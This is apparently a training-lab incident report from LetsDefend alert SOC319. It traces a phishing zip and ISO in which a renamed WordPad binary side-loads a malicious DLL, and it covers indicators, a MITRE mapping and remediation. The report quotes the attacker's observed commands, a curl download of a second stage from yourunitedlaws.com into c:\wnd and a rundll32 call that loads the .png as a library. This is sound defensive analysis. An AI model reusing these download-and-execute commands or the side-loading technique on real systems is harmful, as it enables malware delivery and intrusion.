# Incident Report: Suspicious DLL Execution Detected

**Incident:** DLL Side Loading via ISO Attachment
**Platform:** LetsDefend
**Severity:** Medium
**Category:** Malware
**Date:** 09/09/24
**Related Alerts:** SOC319

> Investigation answers and platform flags are redacted. This report documents the analysis process and reasoning, not the solution to the exercise.

All times below are normalised to the alert timeline (UTC). The Log Management module renders the same events with a four hour offset, so a screenshot showing 14:16:08 is the 10:16:08 event referenced in the text.

## 1. Alert overview

| Field           | Value                                           |
| --------------- | ----------------------------------------------- |
| Alert ID        | SOC319                                          |
| Event ID        | 297                                             |
| Trigger Time    | 2024-09-09 10:17:10                             |
| Rule Name       | Suspicious DLL Execution Detected               |
| Severity        | Medium                                          |
| Source Address  | 172.16.17.122 (hostname Ross)                   |
| Process Name    | RUNDLL32.EXE                                    |
| Trigger Command | rundll32 c:\wnd\3291.png,GetModuleProp          |
| Device Action   | Allowed. EDR/AV Action recorded as Not Detected |

The rule looks for rundll32.exe loading a file whose extension is not .dll. Windows decides how to treat a file by its contents, not by the name on the end of it, so a .png handed to rundll32 is a library wearing a costume. Nobody does this by accident, which is what makes the pattern worth alerting on.

The L1 analyst had already spotted that the user received a mail from support@mail.westcapitalreserve.com carrying perspiciatism.zip a few minutes before the alert. Their handover note said they could not tie that attachment to the rundll32 command. Closing that gap was the job.

## 2. Alert report

**Verdict:** True Positive

**Time of Activity**

| Time (UTC) | Event                                                                                                                                  |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| 10:16:08   | Chrome downloads perspiciatism.zip from mail.westcapitalreserve.com. Sysmon Event ID 15 records a Zone.Identifier stream with ZoneId=3 |
| 10:16:29   | 7-Zip extracts the archive and produces PERSPICIATISM.iso                                                                              |
| 10:16:53   | User runs Open_Document.exe, PID 3000, parent explorer.exe                                                                             |
| 10:16:54   | cmd.exe /c md c:\wnd creates a staging directory, PID 3200                                                                             |
| 10:16:55   | cmd.exe /c curl.exe --output c:\wnd\3291.png --url https://yourunitedlaws.com/mrD/4462                                                 |
| 10:16:55   | Sysmon Event ID 22. curl.exe resolves yourunitedlaws.com to 50.3.132.236                                                               |
| 10:16:55   | cmd.exe /c data\document.rtf, PID 7608                                                                                                 |
| 10:17:05   | WINWORD.EXE opens the decoy document, PID 6620                                                                                         |
| 10:17:10   | rundll32 c:\wnd\3291.png,GetModuleProp, PID 4116                                                                                       |
| 10:17:10   | Open_Document.exe terminates                                                                                                           |
| 10:18:48   | Last outbound connection in the window, 172.31.19.77, a private AWS VPC address                                                        |

Sixty two seconds separate the download of the archive from the attempt to execute the payload.

**Affected Entities**

| Entity                   | Value                                                                             |
| ------------------------ | --------------------------------------------------------------------------------- |
| Host                     | 172.16.17.122 (Ross), Windows 10 64 bit client                                    |
| User account             | EC2AMAZ-ILGVOIN\LetsDefend                                                        |
| Recipient                | ross@letsdefend.io                                                                |
| Sender                   | support@mail.westcapitalreserve.com, sender IP 192.227.130.26                     |
| Downloaded archive       | C:\Users\LetsDefend\Downloads\perspiciatism.zip                                   |
| Container                | PERSPICIATISM.iso, 166 KB, dated 2024-09-09 09:44                                 |
| Malicious DLL            | edputil.dll, 96 KB, dated 2024-03-06                                              |
| Legitimate binary abused | Open_Document.exe, which is Microsoft write.exe, 11 KB, dated 2019-12-06          |
| Decoy document           | data\document.rtf                                                                 |
| Staging directory        | c:\wnd, created and empty at the time of review                                   |
| Payload URL              | https://yourunitedlaws.com/mrD/4462                                               |
| Processes involved       | Open_Document.exe, cmd.exe (three instances), curl.exe, WINWORD.EXE, rundll32.exe |

**Reasoning**

The alert triggered on rundll32.exe loading c:\wnd\3291.png as a library on host Ross (172.16.17.122), under the account EC2AMAZ-ILGVOIN\LetsDefend. Investigation confirmed that the file traces back to a phishing mail from support@mail.westcapitalreserve.com, that the user downloaded perspiciatism.zip from the same domain at 10:16:08 and extracted PERSPICIATISM.iso from it, and that running Open_Document.exe out of that ISO produced the staging directory, the curl download and the rundll32 call inside a single minute. That indicates a deliberate intrusion attempt which reached the execution stage.

Open_Document.exe is an unmodified copy of Microsoft WordPad, clean at 0 of 49 on VirusTotal and tagged as a known lolbin. The malicious code lives in edputil.dll, which shipped alongside it inside the ISO and scored 57 of 70. Windows resolves a dependency from the program's own folder before System32, so running the renamed WordPad binary loaded the attacker's edputil.dll and attacker code executed inside a Microsoft signed process. The VirusTotal behaviour tab for that DLL lists yourunitedlaws.com and 50.3.132.236 among its contacted infrastructure, matching what the host did, and names perspiciatism.zip and PERSPICIATISM.iso as execution parents.

No control stopped any of it. The mail gateway allowed the message, the proxy allowed the download, and EDR recorded Not Detected at every stage. What saved the host was the attacker's own infrastructure. c:\wnd exists but is empty, hidden files included. There is no outbound connection to 50.3.132.236 after the DNS lookup, and nothing at all happens on the host after 10:17:10. The one connection that follows, to 172.31.19.77 at 10:18:48, is a private AWS address belonging to the EC2 environment the host runs in and was excluded. The reading best supported by the evidence is that the download returned nothing and rundll32 was handed a file that did not exist.

**Escalation:**

Escalated to L2 and Incident Response.

A user ran an attacker supplied binary that side loaded a malicious DLL inside a Microsoft signed process, created a staging directory and attempted to pull down a second stage. Nothing in the mail, network or endpoint layer blocked it, and the endpoint product produced no detection at all. The control gap here deserves as much attention as the host does.

Scope as established at L1: activity is confined to this host and this account, the second stage never landed, c:\wnd is empty, no persistence was found and no C2 traffic was observed. The decoy document carries no exploit.

First things for L2 to pick up: confirm no payload was retrieved outside the logged window, and find out whether anyone else received the same campaign.

**Recommended Remediation Action**

1. Isolate host 172.16.17.122 until it is confirmed that no payload was retrieved. Preserve copies of perspiciatism.zip, PERSPICIATISM.iso, the extracted directory and c:\wnd as evidence before removing them from the host.
2. Block yourunitedlaws.com and 50.3.132.236 at the DNS and proxy layer.
3. Block hash 905A3A144F94A38AC6059759879CAEC19CFF446B98C24BB2035B3293330E03B2 across all endpoints. Do not block the Open_Document.exe hash. That file is the genuine Microsoft WordPad binary, and blocking it by hash would hit legitimate systems.
4. Block the sender support@mail.westcapitalreserve.com and search Email Security for other recipients of the campaign.
5. Block or quarantine ISO, IMG and VHD attachments at the mail gateway, and apply Group Policy to stop standard users from mounting disk image files. These formats have no routine business use in mail and are widely used to bypass Mark of the Web.
6. Add detection for rundll32.exe loading files with non DLL extensions, and for Microsoft signed binaries executing from user writable directories outside their installed location. Review why the endpoint product produced nothing for this chain and whether DLL load telemetry (Sysmon Event ID 7) is being collected at all.

**Indicators of Compromise**

| Type           | Indicator                                                        | Notes                                                              |
| -------------- | ---------------------------------------------------------------- | ------------------------------------------------------------------ |
| Hash (SHA-256) | 905A3A144F94A38AC6059759879CAEC19CFF446B98C24BB2035B3293330E03B2 | edputil.dll, the side loaded malicious DLL. 57 of 70 on VirusTotal |
| Hash (SHA-256) | 09CF63D8BBEF5A72D149C81BD7B6D3251D7F3D7C3D1CFB7B0FDB5D4B03E9DF02 | perspiciatism.zip                                                  |
| IP             | 50.3.132.236                                                     | Resolved from yourunitedlaws.com                                   |
| IP             | 192.227.130.26                                                   | Sender IP of the phishing mail                                     |
| Domain / URL   | mail.westcapitalreserve.com                                      | Sender domain, also served perspiciatism.zip                       |
| Domain / URL   | yourunitedlaws.com                                               | Payload host. 11 of 91 on VirusTotal, registered 2024-02-19        |
| Domain / URL   | https://yourunitedlaws.com/mrD/4462                              | Payload download URL                                               |
| Email Address  | support@mail.westcapitalreserve.com                              | Phishing sender                                                    |
| File Name      | PERSPICIATISM.iso                                                | ISO container. 30 of 52 on VirusTotal                              |
| File Path      | c:\wnd\3291.png                                                  | Intended payload location, never present on the host               |

Excluded after review: Open_Document.exe (A70D52EDA892EDC073932B462CC367CDBFBACE3F4196857D8D4FA869A13DE792) is the unmodified Microsoft write.exe, 0 of 49 on VirusTotal. It is a legitimate binary abused as a side loading host and should not be blocked by hash. The outbound address 172.31.19.77 is a private AWS VPC address and does not belong to the attacker.

**MITRE ATT&CK**

| Tactic              | Technique                                                | ID        |
| ------------------- | -------------------------------------------------------- | --------- |
| Initial Access      | Phishing: Spearphishing Attachment                       | T1566.001 |
| Execution           | User Execution: Malicious File                           | T1204.002 |
| Execution           | Command and Scripting Interpreter: Windows Command Shell | T1059.003 |
| Defense Evasion     | Subvert Trust Controls: Mark-of-the-Web Bypass           | T1553.005 |
| Defense Evasion     | Masquerading: Match Legitimate Name or Location          | T1036.005 |
| Defense Evasion     | System Binary Proxy Execution: Rundll32                  | T1218.011 |
| Persistence         | Hijack Execution Flow: DLL Side-Loading                  | T1574.002 |
| Command and Control | Ingress Tool Transfer                                    | T1105     |
| Command and Control | Application Layer Protocol: Web Protocols                | T1071.001 |

## 3. Investigation

### 3.1 Initial triage

The alert gives one command and very little else. rundll32 c:\wnd\3291.png,GetModuleProp on host Ross, EDR/AV Action Not Detected. A .png handed to rundll32 is enough on its own to treat the alert as malicious, so the verdict was never really in doubt. What I needed was how a file ended up in a folder called c:\wnd, and whether the attachment the L1 analyst flagged was the way in.

My working hypothesis was that the zip in the mail delivered something that ran, and that rundll32 sat at the tail end of that chain. Everything after this point is an attempt to walk backwards from the command to the mail.



### 3.2 Email analysis

Email Security has one message for this user that fits the window. From support@mail.westcapitalreserve.com to ross@letsdefend.io, subject "Important Documentation", sender IP 192.227.130.26. Device action is Allowed.

The body is polite and almost content free. Important documentation attached, please review, follow the steps inside. No link, no urgency theatre, no spelling mistakes to catch the eye.



Everything rides on the attachment, perspiciatism.zip. The filename is what matters here, because the same name turns up in a download event on the host a few minutes later.



### 3.3 Delivery chain in Log Management

Filtering Log Management on the host puts the download at the bottom of the window.



Chrome pulls perspiciatism.zip from mail.westcapitalreserve.com at 10:16:08. Sysmon Event ID 15 writes a Zone.Identifier stream with ZoneId=3, which is Windows tagging the file as internet sourced. Same domain as the sender, so the mail and the download are two views of one event.



Twenty one seconds later 7-Zip extracts the archive and an ISO comes out of it.



The extraction produces several more files inside the same few seconds.





The ISO deserves a note. Mark of the Web does not survive the trip through a mounted disk image, so files opened from inside an ISO skip the warning banner that a freshly downloaded file would normally get. The container also keeps three files together in one folder, and that turns out to be the whole point of using it.

At 10:16:53 the user runs Open_Document.exe. Parent process is explorer.exe, so somebody double clicked it.



One second later the same process spawns a command line that runs data\document.rtf. At this stage I had no idea what was inside that document, so it went on the list to check on the host.



In the same second a new directory appears at the root of C: called wnd. A default Windows install has nothing of the sort sitting there, which makes it a sensible place to look for whatever comes next.



At 10:16:55 a DNS event lands. Sysmon Event ID 22, curl.exe resolving yourunitedlaws.com to 50.3.132.236.



VirusTotal flags the domain at 11 of 91, registered 2024-02-19.



At 10:17:05 WINWORD.EXE opens the decoy document. The timing caught my eye. The staging directory and the download attempt both happen before Word opens, so by the time anything appears on the user's screen the rest of the chain has already run.



At 10:17:10 Open_Document.exe terminates.



In the same second rundll32.exe runs GetModuleProp out of 3291.png, which is the command the alert fired on. Ordering inside one second is not visible in the logs. My reading is that the rundll32 call goes out just before the parent exits.



Every one of those commands is recorded with Open_Document.exe as the parent. That looked strange at first, and it is the detail that points at side loading. Process creation logs name the process that is running, not the library loaded inside it, so code living in edputil.dll shows up under the name of its host process.

### 3.4 Endpoint analysis

Endpoint Security confirms the basics for the host. Windows 10, 64 bit, the LetsDefend account.



I filtered the process list to answer one question: did curl actually run, and if it did, what was it told to fetch.



The command line settles it. curl.exe --output c:\wnd\3291.png --url https://yourunitedlaws.com/mrD/4462. The DNS lookup was a download attempt aimed straight at the staging directory.

Network Action is where the chain stops. After the rundll32 call at 10:17:10 there is no connection to 50.3.132.236 and no beacon of any kind. The addresses in the 52.109 and 52.111 ranges are Microsoft telemetry, which fits with Word having just opened. The last entry, 172.31.19.77 at 10:18:48, is a private AWS VPC address from the environment the host runs in.



No child processes, no outbound connections and no file writes appear after 10:17:10 in any of the available logs.

### 3.5 Inspection on the host

The Downloads folder holds the ISO and the extracted folder.



Inside it, a data folder, edputil.dll and Open_Document.exe.



The data folder holds document.rtf, which lines up with the command line seen in the logs.

